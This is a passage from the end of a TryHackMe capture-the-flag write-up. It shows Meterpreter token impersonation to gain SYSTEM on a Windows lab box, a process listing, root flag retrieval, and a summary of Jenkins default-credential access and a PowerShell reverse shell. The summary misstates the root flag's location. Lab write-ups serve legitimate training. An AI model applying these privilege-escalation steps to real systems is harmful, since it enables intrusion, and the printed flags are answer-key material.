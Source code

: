 ```
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
No tokens available
```

Impersonate the `BUILTIN\Administrators` token:
```
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
```

Verify SYSTEM-level privileges by checking running processes:
```
meterpreter > ps
Process List
============
 PID   PPID  Name              Arch  Session  User                        Path
 ---   ----  ----              ----  -------  ----                        ----
 0     0     [System Process]
 4     0     System            x64   0
 668   580   services.exe      x64   0        NT AUTHORITY\SYSTEM         C:\Windows\system32\services.exe
```

**Result**: Successfully escalated to SYSTEM privileges by impersonating the `BUILTIN\Administrators` token.

### Root Flag
Navigate to the Administrator’s desktop to retrieve the root flag:
```
meterpreter > cd C:\Users\Administrator\Desktop
meterpreter > cat root.txt
dff0f748678f280250f25a45b8046b4a
```

---

## Summary
- **Initial Access**: Exploited a vulnerable Jenkins dashboard on port 8080 using default credentials (`admin:admin`). Executed a PowerShell reverse shell via the project configuration.
- **Shell Upgrade**: Switched to a Meterpreter shell for enhanced functionality using Metasploit’s `multi/handler`.
- **Privilege Escalation**: Used the `incognito` extension to impersonate the `BUILTIN\Administrators` token, achieving SYSTEM-level access.
- **Flags Captured**: Retrieved the user flag (`79007a09481963edf2e1321abd9ae2a0`) from `bruce`’s desktop and the root flag (`dff0f748678f280250f25a45b8046b4a`) From C:\Windows\system32\config.

---

<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style='border:none;'></iframe>

Follow me through these links
---
